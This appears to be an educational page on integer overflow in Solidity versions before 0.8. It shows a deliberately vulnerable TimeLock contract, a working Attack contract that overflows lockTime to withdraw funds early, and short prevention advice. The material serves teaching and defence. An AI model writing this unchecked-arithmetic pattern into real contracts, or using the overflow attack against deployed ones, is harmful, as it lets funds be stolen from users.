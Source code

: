 # Arithmetic Overflow and Underflow Vulnerability
From https://solidity-by-example.org/hacks/overflow/

Integer overflow/underflow in smart contracts is a critical vulnerability that occurs when arithmetic operations exceed the maximum or minimum limits of the data type. This is particularly dangerous in versions of Solidity < 0.8 because:

- Integers in Solidity have fixed sizes (uint8 = 8 bits, uint256 = 256 bits, etc.)
- When an operation causes the value to exceed the maximum (2^n - 1) or go below the minimum (0), it will wrap around without any error (versions >= 0.8 throw an error instead)
- This wrapping behavior can be exploited to bypass time locks, manipulate balances, or break other contract invariants

For example, in a uint8 (8 bits):
- Maximum value: 255 (2^8 - 1)
- If you add 1 to 255 → it overflows to 0
- If you subtract 1 from 0 → it underflows to 255

## Why is this dangerous?

In the example contract, the vulnerability allows an attacker to:
1. Deposit funds with a normal 1-week timelock
2. Exploit integer overflow to manipulate the lockTime
3. Withdraw funds immediately, bypassing the timelock entirely

The attack works by finding a value X that when added to the current lockTime T will cause an overflow back to 0:
```
X + T = 2^256 = 0 (due to overflow)
Therefore: X = 2^256 - T
```

## Example
### Vulnerable Code
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;

// This contract is designed to act as a time vault.
// User can deposit into this contract but cannot withdraw for atleast a week.
// User can also extend the wait time beyond the 1 week waiting period.

/*
1. Deploy TimeLock
2. Deploy Attack with address of TimeLock
3. Call Attack.attack sending 1 ether. You will immediately be able to
   withdraw your ether.

What happened?
Attack caused the TimeLock.lockTime to overflow and was able to withdraw
before the 1 week waiting period.
*/

contract TimeLock {
    mapping(address => uint256) public balances;
    mapping(address => uint256) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint256 _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

        uint256 amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent,) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

### Exploit Code
```
contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
        x + t = 2**256 = 0
        so x = -t
        2**256 = type(uint).max + 1
        so x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint256).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```

## Preventative Techniques
Use SafeMath to will prevent arithmetic overflow and underflow

Solidity 0.8 defaults to throwing an error for overflow / underflow